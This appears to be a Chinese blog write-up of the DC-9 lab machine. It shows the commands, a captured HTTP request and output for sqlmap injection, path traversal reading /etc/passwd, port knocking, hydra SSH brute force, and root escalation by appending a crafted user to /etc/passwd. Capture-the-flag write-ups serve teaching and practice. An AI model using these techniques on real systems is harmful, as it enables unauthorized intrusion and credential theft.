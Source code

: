 ```yaml
---
layout: post
title: DC-9
subtitle: DC-9
date: 2025-07-17 11:38
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 信息搜集

扫描IP发现主机 `192.168.163.135`

![image.png](https://img.ghostliner.top/RMLHfa.png)

扫描端口，发现80端口开放，22端口 `filtered` 说明可能存在ssh服务，但被拒绝访问

```shell
nmap -T4 -A -p- 192.168.163.135
```

![image.png](https://img.ghostliner.top/EEZYUr.png)

扫描目录

```shell
dirsearch -u http://192.168.163.135/ -e* -i 200
```

![image.png](https://img.ghostliner.top/pizDdy.png)

`/search.php`发现搜索框，使用sqlmap测试

### 数据库爆破

使用bp抓取提交搜索的数据包，保存到`a.txt`文件中

```http
POST /results.php HTTP/1.1
Host: 192.168.163.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.163.135
Connection: close
Referer: http://192.168.163.135/search.php
Cookie: PHPSESSID=rn9as0edebkia6tvjbv2amr05p
Upgrade-Insecure-Requests: 1
Priority: u=0, i

search=12
```

sqlmap 测试 `search`字段是否存在注入漏洞

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search --dbs
```

![image.png](https://img.ghostliner.top/7YhjJ5.png)

发现存在注入漏洞，且获取到两个数据库：`Staff`、`users`

#### 爆破 Staff 数据库

获取表名
![image.png](https://img.ghostliner.top/UzD1Aj.png)

获取列名
![image.png](https://img.ghostliner.top/EuucQt.png)

获取用户名、密码
![image.png](https://img.ghostliner.top/GKW85t.png)

得到密码：`transorbital1`

#### 爆破 users 数据库

获取 `users` 数据库数据

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search -D users -T UserDetails -C username,password --dump
```

![image.png](https://img.ghostliner.top/eQ4HRT.png)

相关数据保存到了 `C:\Users\vmuser\AppData\Local\sqlmap\output\192.168.163.135\dump\users\UserDetails.csv` 文件中，可将其中内容复制到kali中，之后用来SSH爆破
![image.png](https://img.ghostliner.top/t6HFtP.png)

### 网站登录

通过用户：admin 密码：transorbital1 登录成功

发现 `File does not exist` 字段，猜测有文件包含漏洞

![image.png](https://img.ghostliner.top/ebtKO6.png)

测试url: http://192.168.163.135/manage.php?file=../../../../etc/passwd ，成功获取到数据

由于ssh服务为 `filtered` 猜测是否存在敲门

构造url: http://192.168.163.135/welcome.php?file=../../../../../../etc/knockd.conf ，访问成功

![image.png](https://img.ghostliner.top/IwnyAA.png)
### SSH爆破

根据文件中的端口，依次访问

```shell
nc 192.168.163.135 7469
nc 192.168.163.135 8475
nc 192.168.163.135 9842
```

再次扫描端口，发现已开放

![image.png](https://img.ghostliner.top/dufBKT.png)

将爆破 `users` 数据库得到的`.csv`文件内容复制到kali，保存为user.txt，使用vim将其中的 `,` 替换为 `:`，构造为符合hydra的格式

```vim
:%s/,/:/g
```

hydra爆破SSH

```shell
hydra -C user.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/iG2yVd.png)

| 用户名       | 密码          |
| --------- | ----------- |
| chandlerb | UrAG0D!     |
| janitor   | Ilovepeepee |
| joeyt     | Passw0rd    |

janitor登陆成功，发现以下文件

![image.png](https://img.ghostliner.top/YjkmXE.png)

查看内容，疑似密码

![image.png](https://img.ghostliner.top/3WRnwe.png)

保存到文件中，并将之前的user.txt内容删去密码

```vim
:%s/:.*//g
```

爆破用户名密码
```shell
hydra -L user.txt -P pass.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/7vJOMF.png)

| 用户名   | 密码          |
| ----- | ----------- |
| fredf | B4-Tru3-001 |
| joeyt | Passw0rd    |

获取到新的用户名，发现为系统管理员

![image.png](https://img.ghostliner.top/o9vgFE.png)

### root提权

登录成功，尝试 `sudo -l` 提权

![image.png](https://img.ghostliner.top/GQZeqJ.png)

发现 `/opt/devstuff/dist/test/test` 可用于提权，查看文件属性为二进制文件

![image.png](https://img.ghostliner.top/NDQyxu.png)

搜索上级目录，发现源代码文件 `test.py`

![image.png](https://img.ghostliner.top/AhWaag.png)

查看脚本内容：输入两个参数，且都为文件路径，之后读取第一个文件内容，将其追加到第二个文件中

```python
#!/usr/bin/python
import sys
if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)
else :
    f = open(sys.argv[1], "r")
    output = (f.read())
    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

利用思路：向 `/etc/passwd` 中追加root权限用户，之后切换到该用户，实现root提权

使用无密码用户提权失败，因此生成加密密码，构造有密码用户

```shell
openssl passwd -1 123
# $1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0
```

构造 `/etc/passwd` 格式，保存到临时文件，执行test脚本将其追加到 `/etc/passwd` 中

```shell
echo 'rroott:$1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0:0:0::/root:/bin/bash' >/tmp/tf
sudo ./test /tmp/tf /etc/passwd
su rroott
```

提权成功

![image.png](https://img.ghostliner.top/Il8qMj.png)

获取flag文件

![image.png](https://img.ghostliner.top/I1138g.png)
